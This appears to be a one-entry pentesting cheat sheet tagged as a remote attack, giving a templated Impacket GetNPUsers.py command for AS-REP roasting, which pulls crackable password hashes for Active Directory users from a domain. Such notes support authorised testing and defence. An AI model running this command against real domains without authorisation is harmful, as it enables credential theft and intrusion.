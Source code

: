 # getnpusers
#plateform/linux #target/remote #cat/ATTACK

## ASREPRoast
```
GetNPUsers.py -usersfile <users_file|users.txt> -outputfile hashes.asreproast <domain>/
```
